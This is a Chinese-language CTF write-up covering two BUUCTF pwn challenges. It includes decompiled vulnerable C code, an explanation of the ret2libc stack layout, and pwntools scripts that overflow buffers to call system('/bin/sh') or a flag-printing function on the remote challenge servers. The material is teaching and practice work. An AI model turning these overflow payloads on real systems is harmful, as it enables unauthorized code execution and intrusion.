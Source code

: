 # pwn

## jarvisoj_level2
>做题人：郑林均
>url链接：https://buuoj.cn/challenges#jarvisoj_level2

下载文件后放linux用checksec一下

![alt text](image.png)

发现32位的，放进IDA看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```
很容易发现有溢出点buf，read可以读进0x100，而buf只有0x88，再shift加f12，发现bin/sh
![alt text](image-1.png)
PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag

##  warmup_csaw_2016
>做题人：郑林均
>url链接：[buuctf](https://buuoj.cn/challenges#warmup_csaw_2016)
先放进linux用checkse一下

![alt text](image-2.png)

发现是64位并且什么保护都没开，再放进IDA看看
查看主函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets((__int64)v5);
}
```
发现溢出点，用了gets函数，输入没有限制
然后找获得权限的函数
用shift+f12查看
![alt text](image-3.png)
发现有cat flag.txt
就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

